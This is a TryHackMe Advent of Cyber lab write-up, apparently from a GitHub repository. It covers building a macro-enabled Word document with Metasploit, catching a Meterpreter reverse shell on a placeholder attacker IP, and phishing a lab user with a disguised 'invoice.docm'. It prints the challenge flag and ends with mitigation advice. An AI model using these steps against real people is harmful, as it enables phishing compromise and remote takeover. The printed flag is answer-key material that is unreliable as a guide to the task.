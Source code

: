 # 🎄 TryHackMe Advent of Cyber 2024 – Day 10: Phishing and Macro Exploitation

## Objectives 🎯

Day 10 focuses on understanding **phishing attacks** and how malicious macros can be embedded into Microsoft Office documents to execute payloads. The key tasks include:
- Learning how phishing exploits social engineering to bypass security.
- Creating a malicious macro-enabled document using Metasploit.
- Executing a phishing simulation to deliver the malicious document and gain a reverse shell.

## Steps 🚀

### **Step 1: Setting Up the Environment**
1. **Start the Machines:**
   - Click the **Start Machine** button to start the **target machine** attached to this task.
   - Launch the **AttackBox** by clicking the **Start AttackBox** button at the top of the page.
   
2. **Launch Metasploit Framework:**  
   Open the AttackBox terminal and start Metasploit:
   ```
   msfconsole
   ```

3. **Set Payload for Reverse Shell:**  
   Configure the payload:
   ```
   set payload windows/meterpreter/reverse_tcp
   ```

4. **Specify Exploit Module:**  
   Use the module to create a malicious macro:
   ```
   use exploit/multi/fileformat/office_word_macro
   ```

5. **Set Listener Details:**  
   Define the attacker IP (`LHOST`) and port (`LPORT`):
   ```
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   ```

6. **Generate Malicious Document:**  
   Generate the Word document with the embedded macro:
   ```
   exploit
   ```
   The document (`msf.docm`) is saved to `/root/.msf4/local/msf.docm`.

---

### **Step 2: Configuring the Listener**
1. **Start the Listener in Metasploit:**  
   Use the multi-handler module to listen for incoming connections:
   ```
   use multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   exploit
   ```

2. **Wait for Connections:**  
   The listener is now ready to capture reverse shells once the document is executed.

### **Step 3: Sending the Malicious Document**
1. **Log In to the Mail Server:**  
   Open Firefox in the AttackBox and navigate to `http://MACHINE_IP`. Use the provided credentials:
   - **Email:** info@socmas.thm  
   - **Password:** MerryPhishMas!

2. **Compose a Phishing Email:**  
   Attach the malicious document (`msf.docm`) and send it to the target:
   - **Recipient:** marta@socmas.thm  
   - Rename the document to something plausible like `invoice.docm`.

3. **Social Engineering Message:**  
   Write a convincing message in the email body to entice the target to open the document.

### **Step 4: Exploitation**
1. **Target Opens the Document:**  
   Once Marta opens the document, the embedded macro executes, establishing a reverse shell connection.

2. **Access the Target System:**  
   In Metasploit, observe the successful connection:
   ```
   msf6 exploit(multi/handler) > exploit
   ```

3. **Navigate to the Desktop:**  
   Use the Meterpreter session to find the `flag.txt`:
   ```
   cd c:/users/Administrator/Desktop
   ls
   cat flag.txt
   ```

4. **Retrieve the Flag:**  
   The flag is displayed.

**Flag:** `THM{PHISHING_PAYLOAD_WIN}`

## Key Findings 🔑

1. **Phishing Attacks:**  
   Social engineering is a highly effective method to bypass technical defenses.
   
2. **Malicious Macros:**  
   Macros in Office documents can be weaponized to execute payloads and gain remote access.

3. **Reverse Shell:**  
   A reverse shell allows attackers to control a compromised system remotely, bypassing firewalls and NAT.

## Lessons Learned 🌟

### Key Takeaways
1. **Human Factor:**  
   Phishing attacks exploit human error, making security awareness training critical.
   
2. **Macro Exploitation:**  
   Embedding malicious macros in commonly used file formats can evade basic defenses.

3. **Phishing Prevention:**  
   - Use domain filtering to block typosquatting domains.
   - Enable email security tools like DKIM and SPF.
   - Educate users to identify phishing attempts.

### Mitigation Strategies
- Disable macros by default in Office applications.
- Monitor outgoing network connections for unusual activity.
- Deploy advanced endpoint protection solutions.

### Tools and Techniques 🛠️
1. **Metasploit Framework:**  
   Used to generate malicious documents and handle reverse shells.
2. **Email Server Simulation:**  
   Sent phishing emails to the target.
3. **Meterpreter:**  
   Exploited the connection to gain control over the target system.

## Final Thoughts 🎁

Day 10 provided hands-on experience with **phishing attacks** and the power of **macro-enabled documents** in social engineering exploits. This task emphasized the importance of user training and technical controls to mitigate phishing risks. The seamless integration of Metasploit made this challenge both informative and practical for real-world scenarios.

### Answers ✅
1. **What is the flag value inside the `flag.txt` file?**  
   **Answer:** `THM{PHISHING_PAYLOAD_WIN}`

## Table of Contents 📚

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Sandboxes](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md)
- **Day 10: Phishing**
- [Day 11: Wi-Fi Attacks](day_11.md)
- [Day 12: Web Timing Attacks](day_12.md)
- [Day 13: WebSockets](day_13.md)
- [Day 14: Certificate Mismanagement](day_14.md)
- [Day 15: Active Directory](day_15.md)
- [Day 16: Azure Exploitation](day_16.md)
- [Day 17: Log Analysis](day_17.md)
- [Day 18: Prompt Injection](day_18.md)
- [More Days to Come!](#)
